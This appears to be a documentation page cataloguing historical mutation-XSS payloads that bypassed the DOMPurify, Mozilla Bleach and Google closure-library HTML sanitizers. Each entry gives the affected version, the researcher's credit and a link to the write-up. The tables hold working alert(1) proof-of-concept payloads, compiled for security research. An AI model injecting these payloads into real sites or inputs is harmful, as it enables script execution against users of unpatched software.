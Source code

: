 ```yaml
---
layout: page
title: Payload examples
---
```

This page contains some examples of payloads used to bypass sanitizers in the past. There are many other examples but to avoid redundancy we will add only ones that include new vectors or techniques.

## DomPurify

| Version | Payload                                                                                                                            | Credit                                             | Additional links                                                                                                                        |
|---------|----------------------------------------------------------------------------------------------------------------------------------  |----------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------|
| 2.0.0   | `<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">`                                                                    | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/dompurify-bypass-using-mxss/> |
| 2.0.17  | `<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>`                                                 | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/> |
| 2.0.17  | `<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">`     | Gareth Heyes [@garethheyes](https://twitter.com/garethheyes) | <https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss> |
| 2.0.17  | `<math><mtext><table><mglyph><style><math><table id=”</table>”><img src onerror=alert(1)”>`                                        | [@sqrtrev](https://twitter.com/sqrtrev) [@0xParrot](https://twitter.com/sqrtrev) @web_payload team [@GuesserSuper](https://twitter.com/GuesserSuper) | <https://twitter.com/0xsapra/status/1307929537749999616?ref_src=twsrc%5Etfw> |
| 2.2.0   | `<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">`                        | Daniel Santos [@bananabr](https://twitter.com/bananabr) | <https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f>  |
| 2.2.3   | `<svg><xss><desc><noscript>&lt;/noscript>&lt;/desc>&lt;p>&lt;/p>&lt;style>&lt;a title="&lt;/style>&lt;img src onerror=alert(1)>">` | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://twitter.com/SecurityMB/status/1341290687963262978> |
| 3.0.8   | `<svg><annotation-xml><foreignobject><style><!--</style><p id="--><img src='x' onerror='alert(1)'>">`                              | Kévin - Mizu [@kevin_mizu](https://twitter.com/kevin_mizu) | <https://mizu.re/post/playing-with-dompurify-ce-handling> |

## Mozilla Bleach

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| 3.1.0   | `<noscript><style></noscript><img src=x onerror=alert(1)>`                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.1.1   | `<svg><style><img src=x onerror=alert(1)>`                                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.2.3   | `<math><p></p><style><!--</style><img src/onerror=alert(1)>--></style></math>` | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://github.com/mozilla/bleach/security/advisories/GHSA-vv2x-vrpj-qqpq> |

## Google closure-library

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| v20190215   | `<noscript><p title="</noscript><img src=x onerror=alert(1)>">` | Masato Kinugawa [@kinugawamasato](https://twitter.com/kinugawamasato) | <https://github.com/google/closure-library/commit/c79ab48e8e962fee57e68739c00e16b9934c0ffa> <https://www.youtube.com/watch?v=lG7U3fuNw3A> |
